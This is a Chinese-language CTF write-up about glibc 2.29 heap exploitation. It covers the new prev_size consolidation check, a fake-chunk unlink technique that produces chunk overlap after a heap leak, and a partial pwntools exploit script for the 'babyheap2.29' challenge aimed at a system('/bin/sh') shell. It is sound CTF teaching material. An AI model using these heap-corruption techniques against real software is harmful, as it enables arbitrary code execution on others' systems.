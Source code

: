```c
      unlink_chunk (av, p);
    }
```
学到新单词`consolidate`...这个检测挺恶心的
检测当前`(chunk-prevsize)`处的chunk的`size` 是否等于 `presize`这就基本阻断了不需要的任何泄漏情况下的`OFF_BY_ONE`的`shrinkattck`
提高了门槛.我们在2.27和2.23的利用中是可以做到不需要任何地址就完成`shrinkattck`造成`overlap`的.
但是在2.29中之前的方法不再适用(可能有某些神奇的方法能搞,我目前感觉这个锁死了直接`shrinkattck`的路)
但是幸运的是我们在泄漏了`heap`地址的情况下还是可以轻松完成`overlap`的,之前做的题目好像大多都是要么没有show函数要么输入字符串后面补0..因为泄漏了heap之后利用的确简单.
利用方式比较简单
直接做个fake_chunk注意满足`FD->bk != P || BK->fd != P`就可以了
```python
//get heap
..
add(0x98)#2
add(0x4f8)#3
add(0x18)#4
edit(2,p64(heap+0x480)+p64(heap+0x480)+p64(heap+0x470)+p64(heap+0x470)+'\x00'*0x70+p64(0xa0))
free(3)#unlink leads to  overlap
...
```
## solution
知道了可以利用`leakheap`+`unlink`的方式就比较简单了
* leak heap
* shrink+unlink_fakechunk
* leak libc_base
* system("/bin/sh")
//我在2.27上用2.29的ld,lib本地打不通远端打2.29上跑的就可以..


## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def add(size):
	cmd(1)
	cmd(size)
def edit(idx,c):
	cmd(2)
	cmd(idx)
	cmd(len(c))
	p.sendafter(": ",c)
def show(idx):
	cmd(4)
	cmd(idx)
def free(idx):
	cmd(3)
	cmd(idx)
#context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=process('./babyheap2.29')#,env={"LD_PRELOAD":"/glibc/x64/2.29/lib/libc-2.29.so"})
add(0x100)
add(0x100)
free(1)
free(0)
add(0x100)
add(0x100)
show(0)
p.readuntil(": ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))+(0x5601a38ee000-0x5601a38ee370)
log.warning(hex(heap))
add(0x98)#2
```

[0]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[1]: https://github.com/n132/Watermalon/tree/master/QCTF_2018/babyheap
[2]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/babeheap229